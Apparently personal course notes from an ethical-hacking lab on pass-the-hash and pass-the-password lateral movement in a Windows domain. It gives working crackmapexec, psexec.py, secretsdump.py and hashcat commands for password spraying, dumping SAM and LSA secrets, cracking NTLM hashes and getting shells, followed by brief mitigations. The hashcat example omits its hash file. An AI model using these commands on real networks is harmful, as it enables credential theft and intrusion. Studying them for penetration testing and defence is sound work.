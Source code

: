 # Pass the Hash / Pass the Password

If we crack a password and/or can dump the SAM hashes, we can leverage both for lateral movement in networks

### crackmapexec
Can use **`crackmapexec`**, can grab hashes and pass these or do the same with a password

```
sudo apt install crackmapexec
```

```
sudo crackmapexec smb 10.10.10.0/24 -u fcastle -d MARVEL.local -p Password1
```
Good to do password springs only on local accounts (less risk of getting locked out)
![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/662d19c9423a4bae8117d997abbf8792.png?raw=true)

We can also use an option to try and get (and dump the sam hashes)
```
sudo crackmapexec smb 10.10.10.0/24 -u fcastle -d MARVEL.local -p Password1 --sam
```

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/78d05a6740eb425db582417d1b594785.png?raw=true)

now we know that fcastle is admin on the 10.10.10.4 machine. 
Can span shell:

```
sudo psexec.py marvel/fcastle:Password1@10.10.10.4
```



### secretsdump.py
Can use **`secretsdump.py`** as part of the Impacket tool

```
sudo secretsdump.py marvel/fcastle:Password1@10.10.10.5
sudo secretsdump.py marvel/fcastle:Password1@10.10.10.4
```
![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/2fbaf274ae3345efab1581d9a816f9b9.png?raw=true)
will dump not hust hashes but also, LSA secrets, DPAPI
We will focus on any local SAM hashes we get back. 

Put all hashes into a file (only user and admin ones)
These local hashes are NTLM (not ntlmv2) stored under module 1000
If we cannot crack them, we can try to pass the hashes around
Can only pass NTLM not NTLMv2 hashes around

```
sudo hashcat -m 1000 /usr/share/wordlists/rockyou.txt -O
```
-O for optimisation 
![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/a3562ca07a794f30b5725577927f68b4.png?raw=true)

Passing Frank Castle's hash around
```
sudo crackmapexec smb 10.10.10.0/24 -u "Frank Castle" -H 5835...0ef --local-auth
```
![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/fb8cbaa9ad3b4600b9167ba0d45856a6.png?raw=true)

## Pass the Hass/Password Mitigation
Hard to completely prevent, but can make it more difficult for the attacker:

- Limit account re-use
	- Avoid re-using local admin password
	- Disable Guest and Administrator accounts
	- Limit who is a local administrator (least priviledge)
- Utilise strong passwords
	- The longer the better (>14 characters)
	- Avoid using common words
	- Long sentences are good
- Privilege Access Management (PAM)
	- Check out/in sensitive accounts when needed
	- Automatically rotate passwords on check out and check in
	- Limits pass attacks as hash/password is strong and constantly rotated


